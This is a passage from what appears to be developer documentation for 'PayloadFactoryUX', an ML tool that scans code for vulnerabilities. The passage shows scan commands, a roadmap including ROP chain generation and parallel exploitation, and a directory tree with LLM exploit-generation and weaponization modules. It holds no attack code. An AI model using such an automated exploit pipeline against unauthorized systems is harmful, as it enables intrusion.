**Scenario 1: Buffer Overflow Detection**

```bash
python scan_stage_2.py --target dataset/devign/data/test/
```

**Scenario 2: Multi-Language Scan**

```bash
python scan_stage_3.py --target <multi_lang_project>
```

---

## Future Roadmap

### Planned Features

1. **Advanced ROP Chain Generation**: Automated gadget discovery via ROPgadget integration
2. **Symbolic Execution**: Integration with angr for path exploration
3. **Neural Fuzzing**: Use neural networks to guide fuzzing mutations
4. **Cloud Deployment**: Dockerized deployment with Kubernetes orchestration
5. **Web Interface**: React-based web UI replacing CustomTkinter
6. **Multi-Target Testing**: Parallel exploitation across multiple targets
7. **Report Generation**: PDF/HTML vulnerability assessment reports

---

## Appendix

### Directory Structure

```
PayloadFactoryUX/
├── dataset/                     # Training datasets (17 datasets, 100GB+)
│   ├── CVEfixes/
│   ├── MegaVul/
│   ├── devign/
│   ├── diversevul/
│   ├── exploit-database-master/
│   ├── custom_exploit_dataset.jsonl
│   └── ...
├── ml_engine/                   # Core ML components
│   ├── vuln_scanner.py          # Vulnerability detection engine
│   ├── exploit_generator.py     # LLM-based exploit generation
│   ├── exploit_weaponization.py # Advanced weaponization
│   ├── exploit_context.py       # Context extraction (50+ types)
│   ├── exploit_validator.py     # Exploit testing & validation
│   ├── fuzzing_module.py        # Mutation-based fuzzer
│   ├── rl_agent.py              # Q-Learning optimization
│   ├── recon_module.py          # Reconnaissance tools
│   ├── train.py                 # Train UnixCoder/GraphCodeBERT
│   ├── train_llm.py             # Fine-tune Hermes 3 with QLoRA
│   ├── train_multilang.py       # Multi-language training
│   ├── data_loader.py
│   ├── model.py
│   ├── patch_generator.py
│   └── saved_models/            # Trained model weights
│       ├── unixcoder/
│       ├── graphcodebert/
│       └── hermes_adapter/
├── server/                      # FastAPI backend
│   └── app/
│       ├── main.py              # API endpoints
│       └── api/routes.py
├── gui_launcher.py              # CustomTkinter GUI
├── scan_stage_1.py              # Initial reconnaissance
├── scan_stage_2.py              # C/C++ vulnerability scanning
├── scan_stage_3.py              # Multi-language scanning
├── scan_and_exploit.py          # End-to-end pipeline
├── retrain_scanner_models.py    # Model retraining utility
├── SCOPE_OF_WORK.md             # Project scope definition
├── JIRA_TASKS.md                # Task breakdown
└── DEVELOPER_DOCUMENTATION.md   # This document
```

---

## Contact & Support

For questions or issues, please contact the development team or create an issue in the project repository.

**License**: This software is for authorized security research and penetration testing only. Unauthorized use is illegal and strictly prohibited.

---

**End of Documentation**
